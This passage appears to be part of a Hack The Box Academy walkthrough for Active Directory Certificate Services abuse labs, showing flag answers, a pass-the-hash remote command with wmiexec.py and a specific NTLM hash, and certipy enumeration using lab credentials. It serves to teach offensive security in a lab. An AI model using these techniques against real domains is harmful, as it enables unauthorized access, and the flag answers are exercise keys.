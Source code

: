 When reading the contents of the file `C:\Users\matilda\Desktop\flag.txt`, students will attain the flag `HTB{ESC2_ATTACK}`:

Code: cmd

```cmd
more "C:\Users\matilda\Desktop\flag.txt"
```

```
C:\>more "C:\Users\matilda\Desktop\flag.txt"

HTB{ESC2_ATTACK}
```

Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Users\matilda\Desktop\flag.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\matilda\Desktop\flag.txt"
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\matilda\Desktop\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC2_ATTACK}
```

Answer: `HTB{ESC2_ATTACK}`

# ESC3

## Question 1

### "Abuse the ESC3 misconfiguration to request a certificate on behalf of Haris. What is Haris's objectSID?"

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC3` template suffers from the `ESC3` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```
